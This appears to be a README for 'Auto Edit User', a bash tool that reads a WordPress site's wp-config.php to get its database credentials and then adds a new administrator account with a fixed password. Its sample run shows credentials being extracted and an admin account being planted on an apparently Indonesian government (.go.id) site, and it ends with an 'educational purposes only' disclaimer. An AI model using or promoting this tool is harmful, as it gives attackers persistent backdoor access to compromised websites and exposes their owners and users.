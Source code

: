   ![alt text](https://raw.githubusercontent.com/HaxorSecInfec/wp-audit/main/Screenshot%202024-03-01%20024507.jpg)

# Auto Edit User v1
### Version : 1.1
### Author : HaxorSecKill

#### Run
```
root@HaxorSec:~# bash auto

   _   _   _   _   _   _   _   _     _   _   _   _
  / \ / \ / \ / \ / \ / \ / \ / \   / \ / \ / \ / \
 ( A | u | t | o | E | d | i | t ) ( U | s | e | r )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/   \_/ \_/ \_/ \_/

 Coded By: HaxorSecKill Infection

Path Your Find WP-CONFIG.PHP: /home/Your-User/public_html
Your Username: haxorsecurity

[+] Getting Config From /home/Your-User/public_html/wp-config.php
[*] dbname: [redacted] |dbuser: [redacted] |dbpassword: [redacted] |table_prefix: [redacted]
[+] Trying Added Username and Password: haxorsecurity | HaxorSecInfec
[+] Your ID: 7
[+] Url Login : https://[redacted].go.id/wp-login.php
[+] Successfull AddUser admin!
```

### Bug ? Please Report issue or contact : mrcakil@programmer.net

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository will not hold the author responsible.
Do not pentest without explicit permissions.
